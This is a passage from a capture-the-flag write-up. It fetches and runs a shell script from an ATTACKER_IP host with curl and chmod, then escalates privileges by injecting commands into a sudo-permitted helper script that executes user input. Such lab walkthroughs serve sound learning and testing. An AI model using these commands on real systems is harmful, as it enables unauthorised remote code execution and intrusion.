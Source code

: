 Now we use `curl` to download the shell, `chmod` to make it executable and then run it:
```bash
curl -s http://ATTACKER_IP:8000/shell.sh -o /tmp/xfile && chmod +x /tmp/xfile && /tmp/xfile
```

This will successfully give us a shell.

Let's upgrade our shell (i made a guide [here](https://github.com/Maat-Cyber/Maat-Cyber-World/blob/main/Tips-%26-Resources/Reverse_Shell-Upgrade.md) on how to do it).

<br/>

### Privilege Escalation

#### Becoming Apaar
Exploring around we can find the user "Apaar", we have the permissions to navigate his home directory but not to  read the `local.txt` flag file.
Viewing another interesting files we see:
```bash
ls -la
-rwxrwxr-x 1 apaar apaar  286 Oct  4  2020 .helpline.sh
```

Let's view it:
```bash
cat .helpline.sh
```

```bash
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

This script will ask to input the name of the person you wish to speak to and the message, BUT there is a flaw, the script might execute the message as command!

Check if we can run anything as `sudo`:
```bash
sudo -l
```

We do!:
```
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
